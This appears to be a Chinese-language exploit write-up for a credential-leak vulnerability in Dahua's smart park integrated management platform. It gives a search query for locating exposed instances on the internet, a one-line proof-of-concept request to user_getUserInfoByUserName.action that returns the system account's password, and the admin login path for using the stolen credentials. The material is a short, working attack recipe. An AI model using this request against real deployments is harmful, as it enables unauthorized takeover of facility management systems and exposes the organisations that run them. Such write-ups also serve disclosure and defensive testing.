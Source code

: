 # 大华 智慧园区综合管理平台 user_getUserInfoByUserName.action 账号密码泄漏漏洞

# 大华 智慧园区综合管理平台 user_getUserInfoByUserName.action 账号密码泄漏漏洞

## 漏洞描述

大华 智慧园区综合管理平台 user_getUserInfoByUserName.action 中存在API接口，导致管理园账号密码泄漏

## 漏洞影响

智慧园区综合管理平台

## 网络测绘

```
app="dahua-智慧园区综合管理平台"
```

## 漏洞复现

![image-20230828144644472](images/image-20230828144644472.png)

请求POC

```
/admin/user_getUserInfoByUserName.action?userName=system
```

![image-20230828144658624](images/image-20230828144658624.png)

获取后访问地址

```
/admin/login_login.action
```

![image-20230828144732646](images/image-20230828144732646.png)

